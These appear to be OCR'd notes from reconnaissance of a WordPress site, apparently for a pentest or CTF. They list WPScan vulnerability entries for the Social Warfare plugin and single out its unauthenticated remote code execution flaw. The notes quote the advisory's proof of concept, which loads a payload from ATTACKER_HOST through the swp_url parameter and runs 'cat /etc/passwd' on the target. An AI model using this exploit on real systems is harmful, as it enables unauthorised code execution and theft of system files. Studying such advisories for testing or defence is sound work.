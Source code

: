 2023-01-19

  

Social Warfare < 4.3.1 - Subscriber+ Post Meta Deletion

  

2019-04-24

  

Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)

  

2019-03-21

  

Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update

  

https://wpscan.com/search?text=simple-cart

  

ADDED

  

TITLE

  

2022-02-28

  

Unauthorised AJAX Calls via Freemius

  

So RCE is good to check out. 

  

https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618

  

Description

  

Unauthenticated remote code execution has been discovered in functionality that handles settings import.

  

Proof of Concept

  

1. Create payload file and host it on a location accessible by a targeted website. Payload content : "<pre>system('cat /etc/passwd')</pre>"

2. Visit http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt

3. Content of /etc/passwd will be returned 

  